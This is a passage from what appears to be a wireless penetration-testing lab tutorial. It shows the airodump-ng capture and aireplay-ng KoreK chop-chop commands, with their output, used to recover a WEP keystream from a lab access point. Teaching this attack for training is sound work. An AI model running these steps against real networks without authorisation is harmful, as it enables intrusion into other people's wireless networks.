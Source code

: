 * * *

#### Performing the Attack

To begin, we scan our target access point using `airodump-ng` and capture the communication into a file. We specify our interface in monitor mode with `wlan0mon`, the channel our access point is running on with `-c`, and the location to save the capture file with the `-w` argument.

```shell
airodump-ng wlan0mon -c 1 -w WEP

21:38:45  Created capture file "WEP-01.cap".
 CH  1 ][ Elapsed: 37 mins ][ 2024-08-05 22:15

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 C8:D1:4D:EA:21:A6  -47 100    21573   116394    0   1   11   WEP  WEP         HackTheWifi

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 C8:D1:4D:EA:21:A6  7E:8D:FC:DD:D7:2C  -29    1 - 5      0      85

```

Next, we initiate the `KoreK chop chop` attack in a second terminal. The source MAC address used should be capable of associating with the network. If we need to conduct the attack without authentication and association, there are two options: either omit the `-h` flag (though this can result in dropped packets), or specify the MAC address of an already connected station, which tends to be more reliable. The `-4` option in `aireplay-ng` is used for the KoreK chop chop attack.

Similar to fragmentation attacks, we want to capture a packet originating from a connected station and destined for the AP. Once a valid packet is found, we approve the selection and start the attack, retrieving the PRGA keystream bit by bit.

```shell
aireplay-ng -4 -b C8:D1:4D:EA:21:A6 -h 7E:8D:FC:DD:D7:2C wlan0mon

The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
        ifconfig wlan0mon hw ether 7E:8D:FC:DD:D7:2C
22:09:49  Waiting for beacon frame (BSSID: C8:D1:4D:EA:21:A6) on channel 1

        Size: 100, FromDS: 0, ToDS: 1 (WEP)

              BSSID  =  C8:D1:4D:EA:21:A6
          Dest. MAC  =  C8:D1:4D:EA:21:A6
         Source MAC  =  7E:8D:FC:DD:D7:2C

        0x0000:  0841 0201 d8d6 3deb 29d5 7e8d fcdd d72c  .A....=.).~....,
        0x0010:  d8d6 3deb 29d5 3066 daa0 0a00 3cf2 9b22  ..=.).0f....<.."
        0x0020:  140f 1281 b336 3dc3 7697 157a 88d9 2460  .....6=.v..z..$`
        0x0030:  ed13 410b bea6 9b5d ce96 add6 75fb a0f8  ..A....]....u...
        0x0040:  6878 7ea3 d70a 425f 2c14 a71a 2715 75a6  hx~...B_,...'.u.
        0x0050:  b9ee c1d2 4e19 ae2b e93c c9ab fc28 959f  ....N..+.<...(..
        0x0060:  9a1d 597d                                ..Y}

Use this packet ? y

Saving chosen packet in replay_src-0805-220949.cap

Offset   87 ( 0% done) | xor = 13 | pt = 53 |   83 frames written in  1419ms
Offset   86 ( 1% done) | xor = 64 | pt = B8 |   98 frames written in  1660ms
Offset   85 ( 3% done) | xor = 5D | pt = 0C |   80 frames written in  1360ms
Offset   84 ( 5% done) | xor = 64 | pt = F3 |    4 frames written in    67ms
Offset   83 ( 7% done) | xor = 7B | pt = 00 |   65 frames written in  1097ms
Offset   82 ( 9% done) | xor = 21 | pt = 00 |  219 frames written in  3717ms
Offset   81 (11% done) | xor = F0 | pt = 00 |   17 frames written in   286ms
```